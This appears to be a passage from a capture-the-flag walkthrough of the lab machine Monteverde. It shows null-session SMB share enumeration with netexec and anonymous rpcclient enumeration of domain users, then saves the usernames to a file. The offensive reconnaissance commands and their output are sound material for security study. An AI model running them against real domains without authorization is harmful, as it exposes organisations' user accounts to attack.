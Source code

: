 ```bash
❯ netexec smb MEGABANK.LOCAL -u '' -p '' --shares
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\: 
SMB         10.10.10.172    445    MONTEVERDE       [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

<br />

## Rpcclient

<br />

However, anonymous access is allowed via `rpcclient`:

<br />

```bash
❯ rpcclient -U "" MEGABANK.LOCAL -N
rpcclient $> 
```

<br />

Inside, we can enumerate the domain users with the command `enumdomusers`:

<br />

```bash
rpcclient $> enumdomusers
user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
```

<br />

Then, we put these `usernames` into a file:

<br />

```bash
❯ rpcclient -U "" MEGABANK.LOCAL -N -c "enumdomusers" | grep -oP "\[.*?\]" | grep -v "0x" | tr -d "[]" | sponge users.txt
❯ /usr/bin/cat users.txt
Guest
AAD_987d7f2f57d2
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
```

